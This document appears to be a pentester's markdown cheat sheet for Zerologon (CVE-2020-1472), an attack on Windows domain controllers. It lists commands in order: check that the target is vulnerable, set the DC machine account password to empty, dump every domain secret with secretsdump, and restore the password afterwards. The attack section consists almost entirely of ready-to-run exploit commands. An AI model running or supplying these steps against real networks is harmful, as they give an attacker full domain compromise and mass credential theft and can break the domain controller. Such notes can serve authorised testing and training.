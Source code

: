 <br>

## Zero-Logon

---

### aka CVE-2020-1472

**Attacking** the Domain Controller, **Setting** the **Password** to **null** and taking over the Domain Controller.

**Issue:** When we run the Attack, **and if we do not restore it, we break it **


### Resources

https://github.com/dirkjanm/CVE-2020-1472

<br>

### Exploit

Check if Vulnerable

	python3 zerologon.py COMPUTERNAME {dcip}

Now Let's Attack

	python3 cve-2020-1472-exploit.py COMPUTERNAME {dcip}

Changed the Account Password to an Empty String

How can we know that this is done??

Lets dump out the secrets of the Machine

	secretsdump.py -just-dc {domain}/{dc}\$@{dcip}

	$ => empty value

	secretsdump.py -just-dc DOMAINNAME/COMPUTERNAME\$@{dcip}

:)

<br>

Wait, How the hell do I restore this?

Copy the Administrator Hash

	secretsdump.py administrator@{dcip} -hashes adm1nha$h
	
Look for `plain_password_hex` 

Now use the Restore Script

	python3 restorepassword.py DOMAINNAME/COMPUTERNAME@COMPUTERNAME -target-ip {dcip} -hexpass {plain_password_hex}

Great!
